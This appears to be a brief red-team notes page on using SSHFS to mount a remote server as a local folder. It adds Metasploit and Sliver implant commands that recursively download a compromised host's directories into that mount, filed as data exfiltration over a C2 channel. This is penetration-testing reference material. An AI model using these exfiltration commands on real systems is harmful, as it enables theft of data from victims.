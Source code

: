 # SSHFS

Search Tags: #post-exploitation #file-transfer-and-data-exfiltration #ssh #linux

## 01 - Usage

- Mount SSH server as a filesystem

```
$ sudo mkdir /mnt/ssh_filesystem && sudo chown $USER:$USER /mnt/ssh_filesystem/

$ sshfs <username>@<IP>:/path/to/remote/directory/ /mnt/ssh_filesystem/ -C [-p <PORT>]
```

- To unmount the filesystem

`$ fusermount -u /mnt/ssh_filesystem/`

## 02 - Use Cases

### 2.1 - Exfiltration over C2 channel

#### 2.1.1 - Metasploit

`meterpreter > download -r [<drive_letter>:]/path/to/remote/directory/ /mnt/ssh_filesystem/`

#### 2.1.2 - Sliver

`sliver (IMPLANT NAME) > download -r [<drive_letter>:]/path/to/remote/directory/ /mnt/ssh_filesystem/`

---
## References

- [[Tactics && Techniques && Procedures (TTPs) Phases/Post Exploitation/Shell Is The Beginning/07 - File Transfer and Data Exfiltration/General/C2 Frameworks/Metasploit|Metasploit: Data Exfiltration]]

- [[Tactics && Techniques && Procedures (TTPs) Phases/Post Exploitation/Shell Is The Beginning/07 - File Transfer and Data Exfiltration/General/C2 Frameworks/Sliver|Sliver: Data Exfiltration]]